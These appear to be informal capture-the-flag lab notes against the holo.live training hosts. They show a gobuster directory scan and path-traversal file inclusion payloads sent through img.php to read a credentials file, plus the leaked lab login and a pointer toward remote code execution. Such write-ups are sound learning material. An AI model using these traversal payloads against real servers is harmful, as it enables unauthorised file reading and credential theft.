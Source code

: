 
So i have a file and this is what worked for me as i got a file with it
We have the file list that is allowed and things that are not allowed

```
gobuster dir -u http://admin.holo.live/ -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/big.txt -t 30
```
![[Pasted image 20240204124028.png]]

```
http://admin.holo.live/robots.txt
```
![[Pasted image 20240204124112.png]]


```
http://dev.holo.live/img.php?file=../../../../../../var/www/admin/supersecretdir/creds.txt
```
or 
```
http://dev.holo.live/img.php?file=images/fubuki.jpg../../../../../../var/www/admin/supersecretdir/creds.txt
```

This is just for try
```
../var/www/admin/supersecretdir/creds.txt
../../var/www/admin/supersecretdir/creds.txt
../../../var/www/admin/supersecretdir/creds.txt
../../../../var/www/admin/supersecretdir/creds.txt
../../../../../var/www/admin/supersecretdir/creds.txt
../../../../../../var/www/admin/supersecretdir/creds.txt
```

Data we got
```
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
- 
```
![[Pasted image 20231007183518.png]]


2nd Vulnerability 
RCE:
remote code execution
https://www.imperva.com/learn/application-security/remote-code-execution/
Hello www-data!

We have a file in admin domain that we were not able to access
![[Pasted image 20231007182112.png]]
Let's try to run it from the dev site and see if we can read it using the LFI vulnerability
```
/var/www/admin/supersecretdir/creds.txt
```
